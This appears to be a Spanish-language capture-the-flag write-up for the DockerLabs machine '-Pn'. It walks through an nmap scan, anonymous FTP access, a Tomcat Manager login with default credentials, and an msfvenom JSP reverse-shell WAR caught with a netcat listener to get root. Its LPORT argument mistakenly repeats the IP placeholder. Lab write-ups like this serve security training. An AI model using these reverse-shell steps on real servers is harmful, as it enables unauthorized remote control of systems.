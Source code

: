 ```yaml
---
title: -Pn - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | ElPinguinoDeMario | 

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/4b79a6f1-4bf2-4e43-b435-78036aba152f)

Vemos que esta abierto el puerto 21 `FTP`y el puerto 8080 `HTTPS`

## FTP

`ftp 172.17.0.2`

![image](https://github.com/romabri/romabri.github.io/assets/51706860/279d6aab-c5aa-49d9-88b6-d6d9c6158a61)

Vemos que en el repositorio tenemos un archivo llamado tomcat.txt vamos a descargarlo.

![image](https://github.com/romabri/romabri.github.io/assets/51706860/8afde0c9-add3-411e-857f-96cbaaf7e2b3)

## Puerto 8080

Si vamos a Manager Apps nos pide un usuario y una contraseña 

Vamos a buscarlo en HackTricks y encontramos una serie de contraseñas default y esta funciona tomcat:s3cr3t

![image](https://github.com/romabri/romabri.github.io/assets/51706860/8a4495b5-6b5e-45f6-82ac-79dadfacf490)

Para explotar tomcat usaremos un archivo war que nos devolverá una reverse shell.

Para hacer esto lo generamos asi 

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war`

Ahora le damos a browse, seleccionamos el archivo war que hemos generado y le damos a deploy.

Nos ponemos en escucha con net cat

`nc -lvnp [Puerto]`

Si le damos click ahí nos va a mandar la reverse shell

![image](https://github.com/romabri/romabri.github.io/assets/51706860/fab93ba3-6a51-4c1a-b519-5fb73c48cc1f)

Al recibir la conexión ya seremos ROOT

![image](https://github.com/romabri/romabri.github.io/assets/51706860/680934d5-7a40-4c35-bae1-cd53a7033fbe)

